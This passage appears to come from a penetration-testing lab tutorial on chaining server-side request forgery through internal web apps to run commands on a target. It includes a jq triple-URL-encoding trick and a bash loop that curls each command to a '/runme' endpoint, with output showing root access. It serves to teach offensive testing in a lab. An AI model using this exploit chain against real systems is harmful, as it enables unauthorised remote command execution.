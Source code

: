 ```shell-session
        <p>Message: Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

<span style="color:rgb(255, 0, 0)">To execute commands with arguments or special characters, we need to encode them three times as we pass them through three different web applications.</span>

For doing so, you can use any online URL-encoding service such as [urlencoder.org](https://www.urlencoder.org/). A quick way to achieve this from the terminal also exists. This is to use `jq`, which supports encoding as follows:

#### Install JQ

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ sudo apt-get install jq
Pangulin@htb[/htb]$ echo "encode me" | jq -sRr @uri
encode%20me%0A
```

We can now create a bash function to automate executing commands on the target application.

#### Automate executing commands

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }
```

Now we need to call the function and execute commands via:

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ rce
# uname -a; hostname; whoami

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%3B%20hostname%3B%20whoami
</h1><a>Linux a054d48cc0a4 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 GNU/Linux
a054d48cc0a4
root
 </a></body></html>
```